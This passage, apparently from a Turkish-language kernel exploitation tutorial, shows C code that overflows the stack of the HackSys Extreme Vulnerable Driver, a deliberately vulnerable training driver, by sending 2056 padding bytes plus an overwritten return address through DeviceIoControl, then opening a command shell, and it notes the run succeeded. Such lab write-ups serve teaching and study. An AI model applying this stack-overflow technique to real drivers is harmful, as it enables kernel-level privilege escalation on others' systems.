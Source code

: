 ```c
		NULL,
		BufferSize,
		MEM_COMMIT,
		PAGE_EXECUTE_READWRITE);

	if(!pBuffer)
	{
		printf("2018'de bos hafiza kalmamis?!\n");
		goto RETURN;
	}

	//
	// 2056 bayt -> çöp veri
	// sonraki 8 bayt -> `ret` ile dönülecek yer
	//
	memset(pBuffer, 0x41, 2056);
	*(unsigned long long*)(pBuffer + 2056) = (unsigned long long)cakal;

	Result = DeviceIoControl(
		hDeviceHandle,
		HACKSYS_EVD_IOCTL_STACK_OVERFLOW,
		pBuffer,
		BufferSize,
		NULL,
		0,
		&Retval,
		NULL);

    printf("Evet, emaneti yolladik! Sonuc : %d\n", Result);
	system("cmd");

RETURN:

	if(pBuffer)
	{
		//VirtualFree(pBuffer, 0 , MEM_RELEASE);
		//pBuffer = NULL;
	}

	if(hDeviceHandle)
	{
		CloseHandle(hDeviceHandle);
	}

    return 0;
}
```

Derleyip çalıştırdığımızda aldığımız sonuç ise şu şekilde:

![](/files/cekirdegikitladik.jpg)
